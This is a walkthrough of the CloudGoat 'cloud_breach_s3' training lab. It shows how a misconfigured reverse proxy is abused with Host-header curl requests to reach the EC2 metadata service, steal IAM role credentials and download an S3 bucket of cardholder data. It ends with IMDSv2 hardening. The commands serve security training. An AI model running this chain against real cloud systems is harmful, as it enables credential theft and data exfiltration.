



# Scenario 2 - Cloud Breach s3

cloud_breach_s3

## What is the scenario

The scenario begins with an IP address.

The objective is to exfiltrate sensitive data from an S3 bucket.

More scenario details - https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/scenarios/cloud_breach_s3/README.md

## Setting up the scenario

        python3 cloudgoat.py create cloud_breach_s3

## Walkthrough

### Exploitation Route

### Step by step instructions

This scenario assumes that as an attacker we have reached an IP address after some reconnaissance. We have also figured out that the service on port 80 of the IP address is acting as a reverse-proxy server.

This is a common real-world scenario where as attackers we run into reverse-proxy or application layer "edge router" such a Nginx or Traefik etc which forward the requests to appropriate service based on the Host header in HTTP requests.

As attackers, we can exploit reverse-proxy server with overly permissive configuration to reach internal applications that we can't reach otherwise. This attack get's even more severe in cloud resources because of "Instance Metadata".

> Instance metadata is data about your instance that you can use to configure or manage the running instance. Instance metadata can be accessed at the IP address 169.254.169.254 which is a link-local address and is valid only from the instance. You can read more about IMDS data retrieval here https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html

Let's verify if we can exploit the reverse-proxy server to reach out to EC2 instance metadata service (IMDS). We are using curl HTTP client to make a HTTP request to retrieve metadata and we are adding a "Host" header whose value points to IP address of IMDS service. If the reverse-proxy server has overly permissive configuration then the request will be forwarded to IMDS service and it will return some metadata related information.

        curl -s http://<ec2-ip-address>/latest/meta-data/ -H 'Host:169.254.169.254'

        curl -s \
        http://54.196.109.217/latest/meta-data/local-ipv4 \
        -H 'Host:169.254.169.254'

Now it is evident that the reverse-proxy server has overly permissive configuration that we can exploit to access AWS EC2 IMDS.

From an external attacker point of view, one of the most lucrative information stored in IMDS is IAM role credentials. If we can steal IAM role credentials, we can do whatever the IAM role is allowed to do. In real world, it is quite common for an E2 instance to have IAM roles that they use to interact with other services in the AWS account such as S3 Buckets.

Let's go ahead and extract any IAM role credentials that are accessible via IMDS on this EC2 Instance.

        curl -s \
        http://54.196.109.217/latest/meta-data/iam/security-credentials/ \
        -H 'Host:169.254.169.254'

        curl -s \
        http://54.196.109.217/latest/meta-data/iam/security-credentials/ROLE-NAME \
        -H 'Host:169.254.169.254'

The IAM role credentials we have stolen can be used like any other IAM identity credentials. To enumerate what can be done using the role credentials, we will create a named profile using AWS CLI but notice that the IAM role credentials are short lived and have a session token. The session token has to be manually added to the profile in the file `~/.aws/credentials`

        aws configure --profile stolen-creds

We'll use [enumerate-iam](https://github.com/andresriancho/enumerate-iam) script to quickly verify the role permissions. 

        python enumerate-iam.py --access-key ACCESS-ID --secret-key SECRET-KEY --session-token SESSION-TOKEN

Notice that the IAM role has permission to list s3 buckets in the account. Let's use AWS CLI to list the buckets and download any data stored on the s3 buckets.

        aws s3 ls --profile stolen-creds
        aws s3 sync s3://BUCKET-NAME ./cardholder-data --profile stolen-creds

## Extra mile

IMDS has been [widely exploited](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90) using web application vulnerabilities such as Server Side Request Forgery (SSRF), Command Injection etc in web applications running on EC2 to gain access to IAM credentials.

AWS released an update to EC2 instance metadata service which is used for querying instance metadata values. This new release, IMDSv2, according to AWS is a defence in depth against open firewalls and SSRF vulnerabilities. IMDSv2 needs a session token for making any request to the service. This token can only be obtained by making a specific request using the HTTP PUT method. You can read more about IMDSv2 at https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650

Although IMDSv2 effectively mitigates most SSRF attacks, it still cannot mitigate security issues like mis-configured reverse-proxy servers such as the one we exploited.

Let's upgrade the vulnerable EC2 instance from IMDSv1 to IMDSv2. We need the latest AWS CLI ( >=1.16.287) that supports IMDSv2. Notice that we are using `cloudgoat` profile which is an Admin user to update EC2 instance from IMDSv1 to IMDSv2.

        pip3 install awscli
        pip3 upgrade awscli

        aws ec2 modify-instance-metadata-options \
        --instance-id <INSTANCE-ID> --profile cloudgoat \
        --http-endpoint enabled --http-token required

Let's exploit IMDS v2 using the mis-configured reverse proxy.

We can generate the token for accessing metadata endpoint with the below HTTP PUT request and store the token in a environment variable `$TOKEN`.

        export TOKEN=`curl -X PUT \
        -H "X-aws-ec2-metadata-token-ttl-seconds: 21600" \
        "http://54.196.109.217/latest/api/token" \
        -H "Host:169.254.169.254"`

For further calls, we will use the security token obtained as part of the HTTP request header.

## Destroy the scenario resources

        python3 cloudgoat.py destroy cloud_breach_s3
- [IAM Roles](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles.html)
- [Instance Metadata and User Data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html)
- [Retrieving Instance Metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html)
- [Finding SSRF via HTML Injection inside a PDF file on AWS EC2](https://blog.appsecco.com/finding-ssrf-via-html-injection-inside-a-pdf-file-on-aws-ec2-214cc5ec5d90)
- [Instance Metadata API: A Modern Day Trojan Horse](https://redlock.io/blog/instance-metadata-api-a-modern-day-trojan-horse)
- [Trust No One: The Perils of Trusting User Input](https://www.nginx.com/blog/trust-no-one-perils-of-trusting-user-input/)
- [Getting started with Version 2 of AWS EC2 Instance Metadata service (IMDSv2)](https://blog.appsecco.com/getting-started-with-version-2-of-aws-ec2-instance-metadata-service-imdsv2-2ad03a1f3650)
## References

